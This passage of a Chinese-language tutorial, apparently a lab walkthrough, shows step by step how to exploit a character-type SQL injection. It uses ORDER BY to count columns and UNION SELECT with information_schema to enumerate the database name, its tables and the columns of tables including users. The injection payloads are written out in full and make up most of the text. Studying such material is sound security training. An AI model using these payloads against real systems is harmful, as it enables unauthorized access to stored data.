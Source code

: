 输入`1' or '1'='1'#`，输出了很多内容，说明是字符型注入。

![image-20211101200923569](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031952497.png)

###### 用 order by 判断字段数

`1' or 1=1 order by 2 #`

![image-20211101201302247](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031952344.png)

​		`1' or 1=1 order by 3 #`

![image-20211101201241125](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031952003.png)

###### 确定查询回显位置

`1' union select 1,2#`

![image-20211101201445879](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031952209.png)

###### `database()`查询当前的数据库

`1' union select 111,database()#`

![image-20211101201539254](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031952960.png)

###### 获取数据库中的table

`1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #`

![image-20211102215124372](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031952930.png)

###### 获取表中的column

- 获取guestbook表中的字段：

`1' union select 1, group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='guestbook'#`

![image-20211101201805417](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031952808.png)



- 获取locations表中的字段：

`1' union select 1, group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='locations'#`

![image-20211102215313097](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031954002.png)



- 获取users表中的字段：

`1' union select 1, group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'#`
